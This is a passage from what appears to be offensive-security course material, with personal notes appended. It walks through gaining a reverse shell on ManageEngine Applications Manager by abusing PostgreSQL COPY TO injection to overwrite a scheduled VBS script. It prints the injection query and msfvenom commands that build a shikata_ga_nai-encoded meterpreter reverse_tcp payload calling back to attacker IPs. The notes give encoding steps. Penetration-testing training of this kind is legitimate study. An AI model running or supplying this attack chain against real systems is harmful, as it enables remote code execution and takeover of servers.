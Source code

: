 ```
              
```
1
(The PostgreSQL Global Development Group, 2020), https://www.postgresql.org/docs/9.2/static/sql-copy.html ↩︎

##### Reverse Shell Via Copy To

When the ManageEngine Application Manager is configured to monitor remote servers and applications (that is its job after all), a number of VBS scripts are executed on a periodic basis. These scripts are located in the C:\Program\ Files\ (x86)\ManageEngine\AppManager12\working\conf\application\scripts directory and vary by functionality.If we run the Sysinternals Process Monitor1 tool with a VBS path filter on our target host, we can see that one of the files that is executed on a regular basis is wmiget.vbs.

A few things we need to keep in mind are:

We need to make a backup copy of the target file as we will need to restore it once we are done with this attack vector.

We have to convert the content of the target file to a one-liner and make sure it is still executing properly before appending our payload. This is because COPY\ TO can't handle newline control characters in a single SELECT statement.

Our payload must also be on a single line for the same reason as stated above.

We have to encode our payload twice in the GET request. We need to use base64 encoding to avoid any issues with restricted characters within the COPY TO function and we also need to urlencode the payload so that nothing gets mangled by the web server itself. Finally, we need to use the convert_from function to convert the output of the decode function to a human-readable format. The general query that we will use for the injection looks like this:

```
copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```
Listing 38 - General structure of the query we inject

We need to use a POST request due to the size of the payload, as it exceeds the limits of what a GET request can process. This is not an issue because, as we previously saw, the doPost function simply ends up calling the doGet function.
Before putting all the pieces together let's generate our meterpreter reverse shell using the following command on Kali:
```
kali@kali:~$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
Listing 39 - Generating a VBS reverse shell          

-----
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.45.202 LPORT=4444 -e x86/shikata_ga_nai -f vbs > rev.vbs

cat rev.vbs| base64

We url encoded the listing 38 string in post payload  without replacing ENCODED_PAYLOAD
